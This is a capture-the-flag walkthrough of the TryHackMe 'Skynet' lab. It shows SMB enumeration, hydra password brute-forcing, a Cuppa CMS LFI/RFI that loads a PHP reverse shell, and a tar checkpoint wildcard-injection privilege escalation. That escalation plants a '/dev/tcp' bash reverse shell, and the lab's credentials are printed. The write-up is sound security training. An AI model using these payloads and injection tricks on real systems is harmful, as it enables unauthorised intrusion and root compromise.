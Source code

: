 # Skynet

**Room Link:** [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

```
nmap -A 10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (2) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
smbclient -L //10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (13) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
smbget -R smb://10.10.13.172/anonymous
cat logs/log* | sort | uniq  > passwords.txt 
```

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

There is also an email from Miles Dyson, as it's just his name I tried different varations of his name for a username. There is a folder on samba that could be the username as well, milesdyson.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (4) (1).png" alt=""><figcaption><p>username.txt</p></figcaption></figure>





```
gobuster dir 10.10.13.172 -u http://10.10.13.172 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (34) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
hydra -l milesdyson -P passwords.txt 10.10.13.172 http-post-form "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F incorrect" -V -F -u
```

<figure><img src="../../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now login to squirrelmail that gobuster discovered.

<figure><img src="../../.gitbook/assets/image (10) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (3) (2).png" alt=""><figcaption></figcaption></figure>

Downloaded all the files from the milesdyson folder on smb.

```
smbget -R smb://10.10.13.172/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

<figure><img src="../../.gitbook/assets/image (32) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir 10.10.13.172 -u http://10.10.13.172/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

None of the passwords worked or default credentials for cuppa.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Found an exploit for cuppa LFI/RFI

```
searchsploit cuppa
searchsploit -x php/webapps/25971.txt
```

<figure><img src="../../.gitbook/assets/image (33) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Testing LFI and it works

```
http://10.10.13.172/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we will try RFI to get a reverse shell

**Kali #1**&#x20;

Create PHP reverse shell then host the file

<figure><img src="../../.gitbook/assets/image (3) (3) (3).png" alt=""><figcaption></figcaption></figure>

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://10.10.13.172:81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.243.233/revshell.php
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a backup script that is ran every minute by root which backs up /var/www/html

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (31) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (11) (1) (2) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

We can use the following from gtfo to create a reverse shell. The checkpoint argument lets us run a command before the files are tar'd so we will create a reverse shell in /var/www/html and then the commands will execute when the folder is tar'd next.



**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.243.233/1338 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

**Kali**

```
nc -nvlp 1338
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

There is a password in the configuration file, it does not work for root but we see in the home directory another user called jjameson

```
cat /var/www/html/configuration.php
```

<figure><img src="../../.gitbook/assets/image (37) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can login as jjameson&#x20;

```
su jjameson
Password: nv5uz9r3ZEDzVjNu
```
